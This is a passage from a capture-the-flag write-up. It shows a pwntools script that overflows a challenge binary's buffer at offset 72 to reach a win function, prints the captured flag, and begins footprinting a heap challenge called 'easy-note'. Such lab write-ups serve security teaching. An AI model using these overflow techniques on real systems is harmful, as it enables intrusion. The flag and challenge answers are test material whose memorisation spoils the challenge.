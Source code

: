 ```python
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    io.sendlineafter(b'FALKEN', b'cawk')
    io.sendlineafter(b'?', b'cawk')
    io.sendlineafter(b'?', b'cawk')

    offset = 72
    payload = flat({
        offset: [
            elf.sym['global_thermo_nuclear_war']
        ]
    })
    io.sendlineafter(b'?', payload)

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
**Flag:** _bctf{h0w\_@bo0ut\_a\_n1ce\_g@m3\_0f\_ch3ss?\_ccb7a268f1324c84}_
{% endhint %}

***

## easy-note

### Description

> It's a note editor, what could possibly go wrong?
>
> `nc gold.b01le.rs 4001`

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

```bash
└──╼ [★]$ tree .
.
├── chal
├── Dockerfile
├── exploit.py
├── flag.txt
├── ld-2.27.so
└── libc.so.6

└──╼ [★]$ file chal 
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /tmp/ld-2.27.so, BuildID[sha1]=1671f51c231e09e7084decf9e3dbe368499206a7, for GNU/Linux 3.2.0, stripped

└──╼ [★]$ pwn checksec chal
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```